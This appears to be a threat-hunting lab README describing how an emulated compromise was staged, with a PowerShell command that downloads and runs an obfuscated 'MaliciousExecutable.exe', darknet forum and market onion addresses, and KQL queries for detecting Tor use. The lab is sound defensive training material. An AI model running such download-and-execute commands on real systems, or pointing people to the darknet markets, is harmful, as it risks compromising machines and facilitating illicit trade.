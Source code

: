 # Threat Event (System Compromise)
**Threat Actor Malicious File Download and Malicious File Execution**

### `MaliciousExecutable.exe` Creation and Purpose

The "malicious" executable used within the project was originally written as a PowerShell script and converted into an exectuable using `PS2EXE` (https://github.com/MScholtes/PS2EXE). The intention of the executable was to emulate possible actions a threat actor would undertake once inside a system. I wanted the the executable to perform several commands to populate the `Microsoft Defender for Endpoint` logs. To add another layer of realism to the project, I obfuscated the commands to "challenge" and test a threat hunter's knolwedge and resourcefulness. While there were other possible network reconnaissance techniques the executable could have performed, I chose a non-intrusive technique in attempt to not disrupt other devices and systems on the network. 


## Steps the Threat Actor Took to Create Logs and IoCs:
1. Several failed user logons in quick succession.
2. Opened a PowerShell terminal and executed the command `Invoke-WebRequest -Uri \"https://github.com/AaronRMartinez/Threat-Hunting-Scenario-Compromise/raw/refs/heads/main/MaliciousExecutable.exe\" -OutFile \"$env:USERPROFILE\\Downloads\\MaliciousExecutable.exe\"` to initiate the `MaliciousExecutable.exe` download.
3. Once `MaliciousExecutable.exe` was downloaded, the threat actor simply double-clicked the executable to run it. 
4. Connect to TOR and browse a few sites. For example:
   - **WARNING: The links to onion sites change a lot and these have changed. However if you connect to Tor and browse around normal sites a bit, the necessary logs should still be created:**
   - Current Dread Forum: ```dreadytofatroptsdj6io7l3xptbet6onoyno2yv7jicoxknyazubrad.onion```
   - Dark Markets Forum: ```dreadytofatroptsdj6io7l3xptbet6onoyno2yv7jicoxknyazubrad.onion/d/DarkNetMarkets```
   - Current Elysium Market: ```elysiumutkwscnmdohj23gkcyp3ebrf4iio3sngc5tvcgyfp4nqqmwad.top/login```

6. Create a folder on your desktop called ```tor-shopping-list.txt``` and put a few fake (illicit) items in there
7. Delete the file.

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceLogonEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect a high number of failed logon attempts on a system. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to gain a general overview of a system to observe if any malicious activity is occurring.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcesskEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any commands executed by either the threat actor or malicious files.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any network connections that could suggest possible file downloads.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any malicious file creation occurring on the system.|

---

## Related Queries:
```kql
// Installer name == tor-browser-windows-x86_64-portable-(version).exe
// Detect the installer being downloaded
DeviceFileEvents
| where FileName startswith "tor"

// TOR Browser being silently installed
// Take note of two spaces before the /S (I don't know why)
DeviceProcessEvents
| where ProcessCommandLine contains "tor-browser-windows-x86_64-portable-14.0.1.exe  /S"
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine

// TOR Browser or service was successfully installed and is present on the disk
DeviceFileEvents
| where FileName has_any ("tor.exe", "firefox.exe")
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine

// TOR Browser or service was launched
DeviceProcessEvents
| where ProcessCommandLine has_any("tor.exe","firefox.exe")
| project  Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// TOR Browser or service is being used and is actively creating network connections
DeviceNetworkEvents
| where InitiatingProcessFileName in~ ("tor.exe", "firefox.exe")
| where RemotePort in (9001, 9030, 9040, 9050, 9051, 9150)
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc

// User shopping list was created and, changed, or deleted
DeviceFileEvents
| where FileName contains "shopping-list.txt"
```

---

## Created By:
- **Author Name**: Aaron Martinez
- **Author Contact**: https://www.linkedin.com/in/aaron-m-59725a332/
- **Date**: March 16, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `March  16, 2025`  | `Aaron Martinez`   
